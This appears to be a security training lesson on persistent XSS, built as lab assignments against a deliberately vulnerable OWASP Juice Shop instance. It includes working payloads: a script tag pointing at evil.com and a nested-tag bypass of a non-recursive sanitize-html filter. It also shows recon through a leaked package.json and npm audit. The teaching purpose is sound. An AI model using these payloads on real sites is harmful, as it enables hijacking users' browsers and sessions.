 #+TITLE: Persistent XSS
* Ep-5: What is Persistent XSS
** Table Of Contents
- [[#ep-5-what-is-persistent-xss][Ep-5: What is Persistent XSS]]
  - [[#scope][Scope]]
  - [[#xss-types][XSS Types]]
  - [[#persistent-xss][Persistent XSS]]
  - [[#persistent-xss-vs-reflected-xss][Persistent XSS vs Reflected XSS]]
  - [[#assignment-scenario][Assignment Scenario]]
  - [[#assignment-1-persistent-xss][Assignment 1: Persistent XSS]]
  - [[#assignment-1-persistent-xss-answer][Assignment 1: Persistent XSS (Answer)]]
  - [[#assignment-2-xss-sanitization-issues][Assignment 2: XSS Sanitization Issues]]
  - [[#assignment-3-information-leakage][Assignment 3: Information Leakage]]
  - [[#assignment-3-information-leakage-answer][Assignment 3: Information Leakage (Answer)]]
  - [[#assignment-4-reconnaissance-through-npm-audit][Assignment 4: Reconnaissance Through Npm Audit]]
  - [[#assignment-4-recon-through-npm-audit-answer][Assignment 4: Recon Through Npm Audit (Answer)]]
  - [[#assignment-5-persistent-xss][Assignment 5: Persistent XSS]]
  - [[#assignment-5-persistent-xss-answer][Assignment 5: Persistent XSS (Answer)]]
  - [[#persistent-xss-summation][Persistent XSS Summation]]

** Scope
- What is Persistent XSS (Cross-Site Scripting)?
- Where are common locations for Persistent XSS?
- How can XSS defenses be exploited?
  - Live example via OWASP Juice Shop!
- Learn to leverage ~npm audit~ to check for node.js vulnerabilities
- Persistent XSS vs Reflected XSS
** XSS Types
- Persistent
  - Stored XSS
- Non-Persistent
  - Reflected XSS
  - DOM XSS
** Persistent XSS
- Typically stored in the database
  - username ~<script src='evil.com'></script>~
  - Also in local storage
- Very problematic when shared across multiple users
  - Ex: Chat application where ~username~ is sent to multiple clients
- Other high risk areas
  - Functionality that allows users to submit html markup
    - Web forums
  - Comments
** Persistent XSS vs Reflected XSS
- Persistent XSS
  - Much more dangerous
  - Can attack all users of a site
  - Doesn't have to involve an action from a user
- Reflected XSS
  - Often requires an action from the victim
    - Clicking on malicious link with XSS payload
      - Payload is reflected back to the user
  - Typically involves one victim
** Assignment Scenario
- Exploit a Persistent XSS flaw by taking advantage of a XSS defense
- Aside: All assignment instructions assume Linux/macOS
- OWASP Juice Shop
  - Intentionally vulnerable web app
  - https://github.com/securingthestack/juice-shop
    - ~persistent-xss-1~ branch
  - ~docker run --rm -p 3000:3000 securingthestack/juice-shop:persistent-xss-1~
** Assignment 1: Persistent XSS
1. /Try/ to obtain Persistent XSS within http://localhost:3000/#/contact
   - Port assumes that you leveraged the docker command
   - Input (http://localhost:3000/#/contact)
     - ~<script>alert("I have XSS")</script>Outside Text~ within the ~Comment~ field
     - Make sure to leave rating
   - Output
     - Within the ~Customer Feedback~ section within http://localhost:3000/#/about
2. Given the output in the ~Customer Feedback~ section, how is the application
   handling XSS attacks?
   - Within the context of this feature, why is this a bad practice?

** Assignment 1: Persistent XSS (Answer)
1. Instead of rejecting unexpected input, the application is sanitizing it
   - This is very difficult to implement properly
     - Hmm... How can this step be exploited?
2. Alert
   - If input is unexpected, fully reject it
     - There is no reason why html markup should be placed within the ~Comment~ field

** Assignment 2: XSS Sanitization Issues
- Given the application sanitizes the ~script~ tags within ~<script>alert("I
    have XSS")</script>~...
- Can you insert anything /around/ the ~script~ tags that would allow the XSS to continue?
- Lets explore how attackers could find this flaw
  - Answer will be within the final assignment

** Assignment 3: Information Leakage
1. Through the browser, view Juice Shop's ~package.json~
   - Unfortunately, this file is often easily available
   - Hint
     - ~app.use(express.static(applicationRoot))~

** Assignment 3: Information Leakage (Answer)
- http://localhost:3000/package.json
  - "This isn't a vulnerability!"
- Place ~package.json~ into a directory of your choice
  - You'll be leveraging it within the next assignment

** Assignment 4: Reconnaissance Through Npm Audit
1. Upgrade npm to npm@6+
   - ~npm install npm@latest -g~
2. ~cd~ into the directory with the ~package.json~
3. ~npm i --package-lock-only~
4. ~npm audit > audit.txt~
5. What vulnerability within ~sanitize-html~ can be leveraged to exploit
   Assignment 2?

** Assignment 4: Recon Through Npm Audit (Answer)
- ~sanitize-html~ doesn't sanitize recursively
  - https://nodesecurity.io/advisories/135
  - https://github.com/punkave/sanitize-html/issues/29

** Assignment 5: Persistent XSS
- Obtain persistent XSS within http://localhost:3000/#/about
- XSS Input
  - Within the ~Comment~ field of http://localhost:3000/#/contact
  - Leave rating

** Assignment 5: Persistent XSS (Answer)
- ~<<script>Foo</script>script>alert("XSS")</script>~
- Alternative that doesn't work
- ~<script<script>>alert("I stole your auth cookie")<</script>/script>~

** Persistent XSS Summation
- If input is unexpected, halt execution
  - Dont try to sanitize
- Exploitation process started with "harmless" information leakage
- ~Npm audit~ is your friend
- https://blog.github.com/2017-11-16-introducing-security-alerts-on-github/
- Persisted XSS could give attackers code execution on all of your users' browsers
